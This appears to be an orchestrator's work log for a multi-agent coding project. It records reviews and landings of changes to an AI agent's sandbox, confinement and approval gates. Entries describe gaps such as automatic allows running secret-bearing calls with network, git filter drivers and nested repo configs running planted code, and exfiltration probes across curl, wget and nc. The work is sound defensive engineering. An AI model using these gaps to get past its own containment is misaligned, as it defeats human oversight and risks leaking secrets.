20:01 T42 review APPROVE-WITH-FIXES (substantive: restored spike loses its subdir cwd; restored child reports no written files). Confinement drive held. Fix round sent; second review follows
20:04 T36 fix round done (announce after render_response; failed notice) -> fresh second review
20:06 T35 fix round 2 done; main re-ran 3 spec files defined + 3 fresh seeds: 273/0 each. Landing
20:14 T35 landing red: its new input_pane_spec:1401 IO::TimeoutError under suite load (seed 22404), green alone. Card-owned; sent back (no wall-clock wait). T10 done (9059/0); main applied commands.md paragraph and slow_files entry
20:14 T42 fix round done -> fresh second review. T40 round 3 done -> focused fourth review; ARCHITECTURE line applied by main. T10 -> review
20:21 T35 pane example fixed (wait on the cursor move; watchdog the only bound; not reproduced, 909/0 under load). Relanding
20:21 T24 review 3 APPROVE (0 of 40 cut, 0 of 20 real mismatches). 3 mechanical nits sent, lands after
20:21 T40 review 4 REQUEST-CHANGES (partial; classifier cut it short): commit -a runs a nested gitlink repo's config program. Ruled: keep -a, abstain on any nested repository. Fix round 4 sent
- 20:24 T35 landed 2afa5d13
20:24 T35 landed 2afa5d13
20:24 T39 cut at 2afa5d13, started
20:25 T39 stop: 5 shipped skills declare no holes. Ruled: cleared; an empty known set refuses any hole file; specs move to real holes or a fixture skill
20:27 Rekey round 7 done (separate backup dir, no --restore, 41 checks, 16 single-line mutants). Implementer ran pkill -f once (says it hit only its own shell). Fresh sixth review
20:27 T39 stop 2: project skills declare holes in the catalog. Ruled: add skill/library.rb; declared_holes from the catalog
20:29 T24 nits done (869/0). Landing
20:29 T42 review 2 APPROVE-WITH-FIXES (mechanical; ruled: gone spike stays refused, with a reason). Fix round sent, lands after
- 20:33 T24 landed 04a7319c
20:33 T24 landed 04a7319c
20:33 T20 cut at 04a7319c, started
20:34 T36 review 2 APPROVE-WITH-FIXES (order 200/200 fixed; stale settled record; mutants). Fix round 2 sent, lands after main re-runs probes. Wording 'failed: main (max_tokens)' kept, flagged to user
20:34 T40 round 4 done (nested repos refuse; allowlist configs) -> fresh fifth and last review. T36 reviewer stopped after its report (lingering background work)
20:34 T39 done (3697/0) -> review
20:36 T42 fix round 2 done (1946/0). Landing
- 20:43 T42 landed d8eede7d
20:43 T42 landed d8eede7d. T36 probes re-run by main: 3/0
20:43 Landing T36
20:43 Rekey review 6 REQUEST-CHANGES (all mechanical: kill mid-backup leaves a short copy; other digest-bearing records). Round 8 sent; main verifies and dry-runs on a copy after
- 20:46 T36 landed 6f04934a
20:46 T36 landed 6f04934a
20:47 T38 and T25 cut at 6f04934a, started
20:48 T39 review APPROVE-WITH-FIXES (top-level slot files ignored; message pointers; QA scenario stale, main applies). Fix round sent, lands after
20:49 T20 done (1617/0; Gate#call returns GateView) -> review
20:50 T38 code done; chat wiring (attention.rb, surface.rb, exe/lain, notifier_spec) sent back as required, not optional
20:52 T39 fix round done (3701/0); main applied the QA scenario lines. Landing
20:54 T10 review REQUEST-CHANGES: secret-oracle automatic approval runs traced with network (blocker); unable-box prompt contradicts itself. Fix round sent. New card F13: under --confine reader, automatic allows (judge, rule, remembered, bypass) of secret-bearing calls run traced with network while a human y is contained (predates T10; user call)
20:55 T40 review 5 REQUEST-CHANGES: .gitattributes-selected filter driver resolved on PATH runs lineage-planted code on an allow (sandbox confines). User's ~/.gitconfig defines filter.lfs.process with git-lfs not installed. Escalating to user: 5 reviews, each a new git vector, all sandbox-bounded
07:13 T39 landing red: project_dir_spec ratchet (skill_slots composes .lain/skills by hand), card-caused; sent back
07:14 T40 final round sent (user: sandbox is the boundary; abstain on any filter driver; no 6th review). T20 fix round sent. T25 sent back for device on question answers. T10 second review and T38 review started
- 07:20 T39 fix round 2 done (ProjectDir#skills); relanding, no re-review (mechanical)
- 07:20 T20 fix round 1 done; wiring: epic_finish.rb added to gate_decision_fold_discipline READERS; second review after T39 lands
- 07:22 T38 review r1 REQUEST-CHANGES (1 blocker: feed failure repeats per notice; 6 unpinned wiring lines); fix round 1 sent to a fresh implementer; findings in review-T38-r1.md
- 07:24 T39 landed 71eb2059
- 07:24 T39 landed 71eb2059
- 07:24 T20 second review started (high)
- 07:25 T40 final round done; landing with no 6th review (ruling); leftovers drafted as F14
- 07:36 T40 landed 094fa8da
- 07:37 T40 landed 094fa8da (runtime log 1347, +1 new spec file)
- 07:37 T41 cut at 094fa8da, started
- 07:39 T25 done (question answers carry answered_by); review started (high)
- 07:40 T38 fix round 1 done (once-latch, path in message, 7 wiring pins); second review started (medium)
- 07:41 T41 round 1 done; sent back: research brief must say commit (brief_spec widened), real-landing example for the report
- 07:42 T20 review 2 APPROVE-WITH-FIXES (finish digest_now on dropped issue; denied phase vs commit); mechanical fix round sent, lands without re-review
- 07:45 T41 round 2 done; review started (medium)
- 07:46 T20 fix round 2 done; factory.rb reason line applied; landing
- 07:47 T10 review 2 APPROVE-WITH-FIXES (grant wording, liftable pin, confine help); mechanical fix round to a fresh implementer
- 07:51 T20 landed 114bce87
- 07:51 T20 landed 114bce87 (runtime log 1347)
- 07:51 T23 cut at 114bce87, started
- 07:51 T38 review 2 APPROVE-WITH-FIXES (e2e pin for exe/lain sink; binstub-only skip so a distro /usr/bin feed is found; notes: required); fix round sent. Low risk: main verifies the e2e mutant and the bindir probe instead of a 3rd review
- 07:53 T23 stopped (from_journal live caller; 5 specs off-card; 3 design gaps). Ruled: Gate.new at gate_for, 5 specs in scope, ReadBack kept (own readback), SignoffQueue keeps a details index with membership from Signoff#view
- 07:56 T41 review APPROVE-WITH-FIXES; fix round sent incl substantive: drained research must run as researcher (skill guard). T38 round 2: binstub skip by marker done; item 1 via Todos.start spec
- 07:56 T38 round 2 done; main verified (bindir probe prints Feed, 26 examples green); landing
- 07:57 T25 review APPROVE-WITH-FIXES (repl_spec fake reply blocker; agenda shared key untested; ** keywords; doc); mechanical fix round sent, lands without re-review. Nit 5 (desk answered_by) declined
- 08:01 T38 landed 01b39c56
- 08:01 T38 landed 01b39c56 (runtime log 1347)
- 08:04 T41 round 3 done (items 1-3); item 4 stopped (no role on drain chat) -> F16; landing
- 08:11 T41 landed 097c426f
- 08:11 T41 landed 097c426f
- 08:12 T10 fix round: items 1,2,3,5,6 done; sent back for prompt-time 'without network' wording under a grant, and item 4 (approval_surfaces.rb now in scope)
- 08:13 T25 fixes done (item 3 kept ** per Lint/UnusedMethodArgument precedent); landing
- 08:20 T25 landing red: 35107 examples, 1 failure: 'Lain::CLI::EpicDriver::Run a stop by the human while an issue launches when the issue takes a while to read before its lease is asked for asks for no lease after a stop that lands during the read' STUCK 30.5s at load 19.2/16. Green alone in T25 tree; green 3/3 on base (file, 121 examples). Card does not touch epic_driver. Not reproduced: record by name in toolchain-traps at close-out; relanding
- 08:20 T23 done (3611 examples green); Progress type check kept; 2 stale comments applied by main; review after T25 lands
- 08:23 T25 landed 1d1e145a
- 08:24 T25 landed 1d1e145a
- 08:37 T10 fix round done (prompt predicts grant ports; cockpit note); third review started (narrow, medium)
- 08:45 T23 review APPROVE-WITH-FIXES (pin hold-over-parked and park-clears-hold; landing spec tests Signoff not landing; NotApproved home); fix round sent; land after main checks. Asked reviewer for source of its 'real session' data
- 08:49 T23 review fixes done (3613 green); landing without re-review (test-only rework, mutants reported)
- 08:50 T10 review 3 APPROVE-WITH-FIXES (docs/help exception for build fetch ports; widest pin; carried; comments); fix round sent; main removed slow_files entry
- 08:53 T23 landing red: 2 failures in 'Lain::CLI::TmuxSurface against a real tmux server' (keeps a cleanly exiting window's pane out of the way; holds the corpse of a window whose command exited non-zero). Green alone in T23 tree (40), green 3/3 on base. Not reproduced: record by name at close-out; relanding
- 08:56 T23 landed 84ee13da
- 08:57 T23 landed 84ee13da (runtime log 1345, -2 deleted spec files). Worktree kept until the reviewer answers the data-source question
- 09:04 T10 review 3 fixes done (9090 green); landing
- 09:07 T10 landed f6db4dca
- 09:07 T10 landed f6db4dca
- 09:07 T15 cut at f6db4dca, started
- 09:08 T23 reviewer data checked from its transcript: QA sandbox copies under ~/tmp (lain-qa-2026-11-11-e) and tmp/ trees, find excluded */.local/state/*; no live state read. T23 worktree removed
- 09:22 T15 done (627 card examples, 6010 wider green); sent back to fix remembered silence-deny journaling as human (remembered_denials.rb widened in)
- 09:28 T15 follow-up done (remembered silence deny journals automatic); review started (medium)
- 09:30 plan folded and committed 51e1f10f. F4, F8 cut at 51e1f10f, started
- 09:31 F8 done; main shortened patience to 10s and checked: Offload inline -> 2 failures, restored -> 6 green. Landing; traps edit deferred to a docs commit
- 09:32 F4 done (gated by Async::Variable); lands after F8
- 09:34 F8 landed b7c8fbca
- 09:35 F8 landed b7c8fbca
- 09:45 F4 landed 5faddd21
- 10:19 T15 review REQUEST-CHANGES (silence deny unliftable). User ruling: a human's next line lifts the clock's remembered denials for that chat; human denials never. Mechanical 2,3,4,6 done; item 5 widened to 4 tripwire specs; fix round sent; second review after
- 10:28 T15 round 3 back (forget_lapsed, tripwire authority); ARCHITECTURE wiring applied; second review started
- 10:29 toolchain-traps landed 14ff75c7: Offload pair and fan-out order retired (F8, F4); EpicDriver stop-during-read and 2 TmuxSurface examples added by name
- 10:37 T15 review 2 APPROVE-WITH-FIXES (9 items, 3 surviving mutants on human-line scope). Ruling item 9: a human> answer lifts too. Item 8 taken (regenerate fixture). Fix round sent
- 10:52 T15 round 4 back: 1-7, 9 done (human_replies.rb added); item 8 stopped (regenerate script rewrites variance and planted fixtures, latencies vary): left, follow-up card. Third review (substantive item 9)
- 11:05 T15 review 3 APPROVE; nits 2,3 applied by main; nit 1 (describe nesting) and 4 (NoLapses ownership) declined; landing
- 11:08 T15 landed 6de1bfb5
- 11:09 T15 landed 6de1bfb5 (hook suite passed, runtime log 1346)
- 11:10 QA scenario gaps found (T4, T9, T10, T25, T31, T32, T34, T35, T42); r29-QA cut, docs agent started
- 11:16 QA landed 08b0a034
- 11:16 QA scenarios landed 08b0a034 (12 files; port 9 listener moved to 8919 by main). T29 has no scenario home (read starvation, Worth floor)
- 12:41 User rulings: F2 keep refused + clear error; nyotes trust (already trusted live; trusted in copy home); F13 contain -> card, cut; F16 wider launch-with-role/skill -> separate plan; max_tokens continue -> F18 separate plan. Rekey copy dry run refuses: 37 awaiting_human records keep old plan digest
- 12:49 IC1 copy run green: verdict rewrite 5 files (40 gate: 29 approve, 11 deny); rekey dry 34 decisions + 36 waits; real 3 files, chains intact; rerun 0. Probe: 0 open waits, 25 approved, 1 edited (contract-types-ports, plan really changed). Live run awaits user go + pid 1812006 closed
- 12:54 F13 stop: rule allows now scan (parsed_command_spec). Ruling: exempt ComposedTerm (already reader-masked, no sink); uncontainable box: park if attended, refuse if not; no contained:true under --confine off. Round 2 sent
- 12:58 F2 round 2 done (partial-clone error names unset filter + refetch; review diff raises; no lib creates partial clones). Moved to r29-F2b at c976bb00 by patch: 2 conflicts (spike.rb, local_branch.rb) sent back to implementer with new-site sweep
- 13:02 F13 round 2: ComposedTerm exempt (never secret-bearing by construction: path gate and content predicate park first). Items 2,3 stopped on switchboard.rb wiring; widened into scope, round 3 sent
- 13:07 F2b round 3 done (conflicts resolved to main; lease_commit.rb new site; 7949/0). Second review (high) started
- 13:11 F13 round 3 done (containment+asking into every ladder; 6745/0). Review (high) started
- 13:20 F2 review 2 APPROVE-WITH-FIXES (locale-dependent explanation substantive; 2 survivors). Round 4 sent; review 3 after
- 13:27 F13 review 1 APPROVE-WITH-FIXES (wiring survivors, missing rung record, false exemption reason). Round 4 sent incl ruling: unattended refusal names no human, final not liftable. Review 2 after
- 13:37 F13 round 4 done (11 fixes; Uncontained null object; 6746/0). Review 2 (same reviewer, medium) started
- 13:44 F2 round 4 done (locale-free partial-clone check via promisor/partialclone keys; ratchet exempts by constant; 7956/0). Review 3 (same reviewer, medium) started
- 13:47 F13 review 2 APPROVE-WITH-FIXES, 4 mechanical (bypass park example, double re-send, HELD neutral, top-level spec module). Round 5 sent; lands after hot-path-bench --check, no re-review
- 13:50 F2 review 3 APPROVE-WITH-FIXES: conditional partial-clone advice and comment applied by main (284/0). F13 round 5 done. Landing F2b
- 13:54 F2b landed d7aaf58c
- 13:54 F2 landed d7aaf58c (hook passed, runtime log 1347 = +1 ratchet spec)
- 13:54 F13 hot-path-bench (3 records + check) started in F13 tree
- 14:04 F13 bench: fails bash_true_reader, request_guarded_1000000, wire_ready; base c976bb00 fails the same rows (+ bash_true_workspace), reader base 12.63 vs F13 12.39: not F13. wire_ready ~23 vs ceiling 17.1 on base -> close-out item. Landing F13
- 14:09 F13 landing red: todos_drain e2e cassette stale (3 examples): the drain's auto-allowed 'git add && git commit' now runs contained + note, since secret_bearing? counts unnameable/unscanned reads. Not a flake. Asking user whether unknown reads count for automatic allows. T6 cut at d7aaf58c, started
- 14:18 User ruling F13: automatic allows contained only for known secret holdings; unnameable/unscanned not; human y unchanged. Round 6 sent; review after (substantive)
- 14:18 T6 done (Listing shared, fallback walk, 141/0; walk 0.57s on 5003 files); stopped on judgement_spec 2 fail-open pins -> widened in, flip + fail-closed pin. Round 2 sent
- 14:22 T6 round 2 done (2405/0). Review (high) started
- 14:24 F13 round 6 done (holds_secrets? for automatic allows; drain e2e green on old cassette; 6799/0). Review 3 (same reviewer) started
- 14:31 pid 1812006 closed at user's request: TERM and INT ignored (idle, io_cqring_wait), KILL; its journal ends on a newline, 3516 lines as copied
- 14:32 F13 review 3 APPROVE-WITH-FIXES (unnameable arm unpinned; comment). Probe: 0 token copies across curl/wget/nc send shapes. Gap noted: git add <unmasked file holding a token> is unscanned pathspec -> automatic allow uncontained (pre-existing; F19 follow-up). Round 7 (mechanical) sent; lands after, no re-review
- 14:33 F13 round 7 done (581/0). Landing F13 again
- 14:37 F13 landed 8b48d882
- F13 landed 8b48d882 14:38 (landing 2 green; profiles.rb patched cleanly from main)
- IC1 live old-records rewrite 14:39, user approved: verdicts 5 files 40 gates (29 approve, 11 deny); rekey 34 decisions + 36 waits in 3 files, chains intact; rerun 0; probe 0 open waits, 25 approved, 1 edited (contract-types-ports). Backup ~/tmp/lain/r29-live-backup-20261113T143909 (743M); .pre-verdict.bak files left beside each journal. Log $S/ic-live.log
- T6 review 1 14:40: APPROVE-WITH-FIXES; fix round 1 started (item 1, NITs 4 5 6); follow-ups F20 (chmod escape), F21 (never-listed root), F22 (listing seams)
- 14:50 T6 landed bdd602d8
- T6 landed bdd602d8 14:50; r29-T21 worktree removed after the live rewrite
- close-out pspec 15:02: 35236 examples, 5 failures, all in qa_sandbox_pane_resolution_spec; fails alone on main (5/7), green at HEAD in a clean worktree (7/7): caused by the user's uncommitted qa-sandbox.sh edit (TMUX_TMPDIR, herdr unset), which the commit hooks stash. Not a card.
- 15:05 close-out: rubocop 2693 files clean; yard-lint lib exit 0 (1 convention note, selection.rb:44, not this run's); core:build ok; lain-remote fmt, clippy, 30 tests ok; zeitwerk-census 0 on every tier; secret-boundary §8b added for T6. hot-path-bench --check said ok but read logs from 2026-11-10; a bisect found wire_ready 18.6-19.3 ms up to 84ee13da, 23.1 ms at f6db4dca (T10: wiring now probes containment eagerly, spawning lain-fence and bwrap --unshare-net per launch), 24.4-24.8 ms at bdd602d8 (report: $S/wr/report.md). Filed F23. Old-session SIGTERM question filed as F24. Status done.
